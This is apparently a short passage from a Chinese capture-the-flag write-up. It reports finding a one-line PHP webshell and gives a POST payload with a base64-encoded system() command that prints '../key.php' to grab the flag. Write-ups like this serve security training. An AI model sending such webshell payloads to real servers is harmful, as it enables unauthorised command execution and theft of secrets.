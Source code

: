 ![upload successful](./images/pasted-838.png)

发现是一个一句话木马，用post传参`Hello=1&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==`成功拿到key
![upload successful](./images/pasted-839.png)

# 34034 代码审计

